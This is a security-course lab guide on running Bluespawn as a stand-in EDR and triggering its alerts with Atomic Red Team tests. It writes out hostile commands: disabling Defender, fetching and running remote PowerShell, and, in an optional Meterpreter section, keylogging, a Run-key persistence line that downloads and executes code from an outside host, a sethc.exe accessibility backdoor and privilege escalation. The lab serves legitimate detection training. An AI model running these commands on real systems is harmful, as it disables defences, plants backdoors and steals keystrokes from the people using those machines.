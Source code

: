 

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

![](attachments/OpeningPowershell.png)

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/disableDefender.png)

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a command prompt by clicking on the icon in the taskbar:

![](attachments/openingcommandprompt.png)

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 
![](attachments/cdandstartbluespawn.png)

You should see something like this:

![](attachments/bluspawnlaunched.png)

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

![](attachments/OpeningPowershell.png)

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

![](attachments/installationconfirmation.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

![](attachments/invokeatomicv1.png)

>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>![](attachments/crossreference.png)


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:

![](attachments/bluespawndetections.png)

Now, let’s go back to the PowerShell window and clean up:

<pre>Invoke-AtomicTest All -Cleanup</pre>

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# Optional Section: Meterpreter

If you have more time, feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands:

<pre>keyscan_start</pre>

<pre>keyscan_dump</pre>

![](attachments/Clipboard_2020-06-15-13-52-00.png)

<pre>shell</pre>

<pre>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f</pre>

<pre>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"</pre>

![](attachments/Clipboard_2020-06-15-14-00-53.png)


<pre>getsystem</pre>

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/deepbluecliIntroClass/DeepBlueCLI.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---






